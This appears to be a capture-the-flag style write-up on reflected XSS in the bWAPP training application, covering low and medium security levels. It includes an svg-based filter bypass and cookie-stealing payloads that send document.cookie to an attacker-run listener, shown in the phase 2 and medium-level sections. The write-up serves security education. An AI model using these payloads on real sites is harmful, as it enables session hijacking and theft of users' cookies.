 # Reflected XSS (GET)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](WRITEUP.en.md)
- 🇷🇺 [Русский](WRITEUP.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***Cross-Site Scripting (XSS) vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low
- Medium

# Target
---

![Target](images/XssReflectedTarget.png)

# Functionality
---

![Function](images/XssReflectedFunction.png)

# Exploitation (phase 1)
---

Testing for Reflected XSS by passing a simple XSS payload in the `lastname` field through BurpSuite or directly on the client side:

#### Payload (Security level - low)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite

![GetBurp](images/XssReflectedGetBurp.png)

## Browser

![GetBrowser](images/XssReflectedBrowser.png)

## Result

![RefSuccess](images/XssReflectedSuccess.png)

The application is vulnerable to Reflected XSS. This vulnerability can be used to steal cookies of other users.

Note: For `medium` and `high` security levels in BWAPP, the payloads will differ due to implemented security measures.

## Exploitation (Phase 2)
---

An HTTP server can be set up using Python with the command:

```Bash
python3 -m http.server "port"
```

I didn't specify the port, and the server started on port `8000`.

When a user visits a URL with this payload embedded:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Their cookies will be sent to the HTTP server running on port `8000`.

Visiting the URL as the default `bee/bug` user resulted in successful cookie theft:

![RefCookie](images/XssReflectedCookieTheftTest.png)
(PHPSESSID contains a token used for user authentication)

Now let's simulate victim interaction:

![Mamont](images/XssReflectedMamont1.png)

I created a victim user and used their credentials to log into BWAPP.

Once the victim follows the malicious link (which in the real world is typically provided through social engineering methods), the cookie value is sent to the attacker's server:

![Mamont2](images/XssReflectedMamont2.png)

It worked! The `Mamont` user's cookies were successfully compromised without their knowledge:

![MamontCookie](images/XssReflectedMamontCookie.png)
(For clearer output, I restarted the server instance)

## Medium-level Approach
---

BWAPP at `medium` security level implements defense measures against basic XSS payloads:

```HTML
<script>alert("Basic XSS")</script>
```

However, the `svg`-based payload bypasses the filters, resulting in successful code execution:

```HTML
<svg onload=alert(1)>
```

### Medium-level cookie theft payload

This payload is similar to the low-level approach but uses `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```